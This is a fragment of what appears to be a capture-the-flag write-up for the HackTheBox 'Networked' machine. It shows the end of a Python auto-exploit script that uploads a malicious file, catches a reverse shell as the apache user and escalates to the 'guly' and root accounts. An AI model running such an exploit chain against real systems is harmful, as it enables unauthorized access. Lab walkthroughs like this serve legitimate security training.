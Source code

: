 ```py
    # Set Up the Handler for apache user
    thr = Thread(target=Handler,args=(int(lport),))
    thr.start()
    # Upload it
    maliciousUpload(rhost)
    # Get the rev shell
    getReverse(rhost,lhost,lport)
    
    '''Now let's get the guly and root shell'''
    # Set Up the Handler for Guly and root user
    lport = int(lport) + 1
    thr = Thread(target=HandlerGulyRoot,args=(int(lport),))
    thr.start()
    
if __name__ == '__main__':
    main()
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2022-01-04-HackTheBox-Networked/root_networked.gif)